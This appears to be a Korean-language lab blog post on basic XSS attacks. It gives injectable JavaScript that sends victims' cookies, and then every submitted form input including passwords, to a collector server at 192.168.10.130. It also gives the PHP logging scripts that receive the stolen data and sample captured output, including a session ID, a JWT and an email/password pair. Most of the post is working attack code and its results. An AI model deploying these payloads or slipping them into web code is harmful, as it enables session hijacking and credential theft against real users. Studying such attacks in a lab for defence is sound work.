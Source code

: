 ```yaml
---
layout: post
title: XSS Basic
description: About the XSS
date: 2024-11-13 02:35:00 +0900
categories: [Technical Labs]
tags: [XSS]
pin: false
math: false
mermaid: false
image:
  path: commons/xss/title.webp
---
```

<!-- categories: [Technical Concepts Summarized, Technical Labs, Technical Terms, Useful Apps To Help With Technology] -->

## Overview
XSS을 이용한 기본적인 Session hijacking과 Form action hijacking을 구현해보고자 한다.

### Session Hijacking
JS code to inject into your website
```javascript
var cookieData = document.cookie; // 사용자의 쿠키
var attackURL = "http://192.168.10.130/xss.php?cookie="; // xxx.php파일로 쿠키를 전달할 URL
new Image().src = attackURL + cookieData; // 이미지의 경로로 URL을 설정하여 해당 URL를 실행
```

Server code to receive the session
```php
$logFile = 'xss.log';
if (isset($_GET['cookie'])) {
    $cookieData = isset($_GET['cookie']) ? $_GET['cookie'] : 'No cookie';
    
    if (isset($_GET['cookie'])) {
        $logData = "[" . date('Y-m-d H:i:s') . "] Cookie: " . $cookieData . "\n";
    }
    file_put_contents($logFile, $logData, FILE_APPEND);
}
```

Saved files
```
[2024-11-13 03:20:03] Cookie: PHPSESSID=8l7socimgt2ef7ra8bbmhdn26f; jwt_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiMTUiLCJlbWFpbCI6IndoZ0BnbWFpbC5jb20iLCJleHAiOjE3MzE0Mzg0MDF9.IS8LaGsne0apR3JBms1chsH5UNYp6viKYts7ggPNNR8
```

<br>

### Form Action Hijacking
JS code to inject into your website
```javascript
document.addEventListener('DOMContentLoaded', function() { // 컨텐츠가 모두 로딩된 후 실행
  var form = document.querySelector('form');
  
  form.addEventListener('submit', function(event) { // 모든 form의 submit이 클릭될 때 실행
    // 모든 input 요소의 값을 수집
    var inputs = document.querySelectorAll('input');
    var data = [];

    inputs.forEach(function(input) {
        var id = input.id ? "id='" + input.id + "'" : "";
        var name = input.name ? "name='" + input.name + "'" : "";
        var value = input.value ? "value='" + encodeURIComponent(input.value) + "'" : "value='empty'";

        // id, name, value를 모두 포함한 데이터를 추가
        var combined = [id, name, value].filter(Boolean).join(", ");
        data.push(combined);
    });

    // 모든 입력 데이터를 연결하여 공격자 서버로 전송
    var attackURL = "http://192.168.10.130/xss.php?data=" + encodeURIComponent(data.join("; "));
    new Image().src = attackURL;
  });
});
```
- 모든 form의 모든 input을 로깅합니다.
- 공격자의 입장에서 저장된 값을 쉽게 파악할 수 있도록 input의 id와 name의 vaule를 함께 기록합니다.

Server code to receive the session
```php
$logFile = 'xss.log';
if (!empty($_GET)) {
  $logData = "[" . date('Y-m-d H:i:s') . "]\n";

  foreach ($_GET as $key => $value) {
      // 각 입력 필드의 키와 값을 로그에 저장
      $logData .= $key . " = " . $value . "\n";
  }

  file_put_contents($logFile, $logData, FILE_APPEND);
}
?>
```

Saved files
```
[2024-11-13 03:22:03] 
data = id='id_email', name='email', value='whg%40gmail.com'; id='id_password', name='password', value='1234'; value='on'
```
